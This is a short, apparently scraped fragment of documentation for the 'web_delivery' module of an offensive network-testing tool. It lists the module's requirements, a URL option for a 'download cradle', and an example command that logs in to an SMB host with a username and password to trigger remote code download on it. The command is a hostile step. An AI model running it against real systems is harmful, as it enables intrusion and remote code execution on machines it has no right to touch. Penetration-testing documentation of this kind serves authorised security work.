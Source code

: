 Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```
    URL  URL for the download cradle
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M web_delivery
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------

